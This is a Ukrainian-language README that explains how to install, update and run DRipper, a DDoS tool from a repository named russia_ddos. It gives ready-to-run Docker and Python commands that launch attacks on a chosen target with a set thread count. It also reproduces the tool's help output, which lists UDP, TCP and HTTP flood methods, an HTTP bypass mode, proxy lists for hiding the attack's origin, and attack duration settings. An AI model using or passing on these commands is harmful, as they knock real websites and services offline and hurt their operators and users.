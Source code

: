 # Як встановити та оновити DRipper

**DRipper** можна запустити двома спосбами - в docker або як python скрипт. Якщо порівнювати ці способи запуску, то запуск напряму через Python буде більш ефективнішим по використанню ресурсів Вашого ПК. А docker - це ізольване середовище, де вам нічого не потрібно встановлювати і налаштовувати, але ресурсів, Docker, використовує в рази більше.

## Що треба встановити попередньо

Для запуску в Docker, Вам потрібно попередньо встановити Docker для Вашої операційної ситеми.
Для запуску як python скрипт Вам порібно встановити Python 3.9 (або версію више) та Git.

### Запуск через Docker

Для запуску через Docker вам потрібно запустити термінал (PowerShell для Windows, Bash для macOS, Linux) і просто запустити команду.

**Windows PowerShell**
```powershell
PS C:\> docker run -it --rm --pull=always alexmon1989/dripper:latest -t 200 -s tcp://site1.com:80
```

**macOS/Linux Bash**
```bash
$ docker run -it --rm --pull=always alexmon1989/dripper:latest -t 200 -s tcp://site1.com:80
```

Ці команди однакові, вони завантажать **docker image** останньої версії та запустять атаку, відповідно до вказаних параметрів.
В данному прикладі, параметри атакі, це: **-t 200 -s tcp://site1.com:80**, де **-t 200** - кількість потоків, **-s tcp://site1.com:80** - ціль

---

### Запуск Python скрипта

Якщо Ви ще не встановлювали **DRipper**, то Вам потрібно завантажити актуальну версію та встановити всі необходні бібліотеки для роботи скрипта, це дуже просто.

Запускаємо термінал (PowerShell для Windows, Bash для macOS/Linux), та переходимо до директорії (папка), куди будуть завантажені файли скрипта, наприклад:

**Windows PowerShell**
```powershell
# Створимо папку dripper в корні диска С:
PS C:\> mkdir C:\dripper
# Перейдемо в папку де будуть завантажений dripper
PS C:\> cd C:\dripper

# Завантажуємо актуальну версію з git репозиторію
PS: C:\dripper\> git clone https://github.com/alexmon1989/russia_ddos
PS: C:\dripper\> cd russia_ddos

## Встановлюємо всі необхідні бібліотеки
PS: C:\dripper\russia_ddos\> python3 -m pip install -r requirements.txt

## Запуск скрипта
PS: C:\dripper\russia_ddos\> python3 DRipper.py -t 200 -s tcp://site1.com:80
```

**macOS/Linux Bash**
```bash
# Створимо папку dripper в директорії користувача (Home folder)
~ $ mkdir ~/dripper
# Перейдемо в папку де будуть завантажений dripper
~ $ cd ~/dripper

# Завантажуємо актуальну версію з git репозиторію
~/dripper $ git clone https://github.com/alexmon1989/russia_ddos
~/dripper $ cd russia_ddos

## Встановлюємо всі необхідні бібліотеки
~/dripper/russia_ddos $ python3 -m pip install -r requirements.txt

## Запуск скрипта
~/dripper/russia_ddos $ python3 DRipper.py -t 200 -s tcp://site1.com:80
```

---

## Оновлення DRipper

### Для **Docker** можна використати декілька способів:

- Завжди використовувати тег `latest`, при цьому додати `--pull=always`, наприклад: `--pull=always alexmon1989/dripper:latest`
- Використовувати **docker image** з новою версією, явно вказавши версію, наприклад: `alexmon1989/dripper:2.5.0`

### Розглянемо на прикладах:

Припустімо, що у Вас зараз версія **2.4.0** і Ви бажаєте оновити до останньої **2.5.0**, використовуючи **Docker**

```bash
# Оновлення до актуальної версії, використовуючи тег latest
docker run -it --rm --pull=always alexmon1989/dripper:latest --version

# Оновлення до актуальної версії, використовуючи версію як тег
docker run -it --rm alexmon1989/dripper:2.5.0 --version
```

Загалом, стратегія оновлення дуже проста, Ви можете використовувати нову версію, як тільки вона вийде, просто написавши версію в якості тега. Або час від часу, наприклад раз на тиждень, додавати `--pull=always` до команди запуску в докері, якщо Ви використовуєте тег `latest`


### Для Python оновлення дуже просте

Для оновлення, треба просто завантажити за допомогою **git** останні зміни і повторно запустити встановлення бібліотек. Для цього Вам треба в терміналі перейти в директорію зі скриптом і виконати всього дві команди:

```bash
cd russia_ddos

git pull

python3 -m pip install -r requirements.txt
```

Після цього Ви можете запускати команди і виконувати атаки.

---

## Допомога з параметрами скрипта

Якщо Ви не знаєте які параметри у скрипта і на що вони впливають, завжди можна запустити команду `--help` і подивитися детально який параметр і для чого використовується, наприклад:

```bash
# Docker
docker run -it --rm alexmon1989/dripper:latest --help

# Python
python3 DRipper.py --help

# Приклад виводу команди --help:
Usage: DRipper.py [options] arg

Options:
  --version                                             show program's version number and exit
  -h, --help                                            show this help message and exit
  -s TARGETS, --targets=TARGETS                         Attack target in {scheme}://{hostname}[:{port}][{path}] format.
                                                        Multiple targets allowed.
  -m ATTACK_METHOD, --method=ATTACK_METHOD              Attack method: udp-flood, tcp-flood, http-flood, http-bypass
  -e HTTP_METHOD, --http-method=HTTP_METHOD             HTTP method. Default: GET
  -t THREADS_COUNT, --threads=THREADS_COUNT             Total threads count. Default: 100
  -r RANDOM_PACKET_LEN, --random-len=RANDOM_PACKET_LEN  Send random packets with random length. Default: 1
  -l MAX_RANDOM_PACKET_LEN, --max-random_packet-len=MAX_RANDOM_PACKET_LEN
                                                        Max random packets length. Default: 1024 for udp/tcp
  -y PROXY_LIST, --proxy-list=PROXY_LIST                File (fs or http/https) with proxies in
                                                        ip:port:username:password line format. Proxies will be ignored
                                                        in udp attack!
  -k PROXY_TYPE, --proxy-type=PROXY_TYPE                Type of proxy to work with. Supported types: socks5, socks4,
                                                        http. Default: socks5
  -c HEALTH_CHECK, --health-check=HEALTH_CHECK          Controls health check availability. Turn on: 1, turn off: 0.
                                                        Default: 1
  -o SOCKET_TIMEOUT, --socket-timeout=SOCKET_TIMEOUT    Timeout for socket connection is seconds. Default (seconds): 1
                                                        without proxy, 2 with proxy
  --dry-run                                             Print formatted output without full script running.
  --log-size=LOG_SIZE                                   Set the Events Log history frame length.
  --log-level=EVENT_LEVEL                               Log level for events board. Supported levels: info, warn, error,
                                                        none.
  -d DURATION, --duration=DURATION                      Attack duration in seconds. After this duration script will stop
                                                        it's execution.

Example: dripper -t 100 -m tcp-flood -s tcp://192.168.0.1:80
```

---

## Як дізнатися, що нового в тій чи іншій версії

Для тих, хто використовує запуск скрипта напряму через Python - Ви завжди маєте всю кодову базу разом з історією змін (CHANGELOG.md). Файл текстовий, його можна відкрити за допомогою будь-якого текстового редактора і подивитися детальну історію змін. Або просто перейдіть за посиланням, та подивіться на історію змін онлайн - [CHANGELOG.md](https://github.com/alexmon1989/russia_ddos/blob/main/CHANGELOG.md)
